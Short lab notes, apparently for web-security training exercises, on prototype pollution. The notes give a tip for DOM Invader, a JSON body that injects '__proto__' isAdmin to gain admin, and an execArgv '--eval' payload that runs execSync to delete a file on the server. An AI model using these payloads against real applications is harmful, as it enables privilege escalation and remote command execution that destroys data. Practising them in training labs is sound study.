 # Use DOM Invader

## if alert() was not triggered:
Click Exploit again. In the new tab that loads, append a minus character (-) to the URL and reload the page. 

==========================================ADMIN ESCALATION=============================================
## Escalation to admin

```
{"address_line_1":"Wiener HQ",
"address_line_2":"One Wiener Way",
"city":"Wienerville",
"postcode":"BU1 1RP",
"country":"UK",
"sessionId":"32rXOzL7o03dJIOblnSFC5mTqd86xack",
"__proto__": {
    "isAdmin":"true"
}}
```

=========================================READ CARLOS/SECRET============================================

## Remote Code Execution

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```
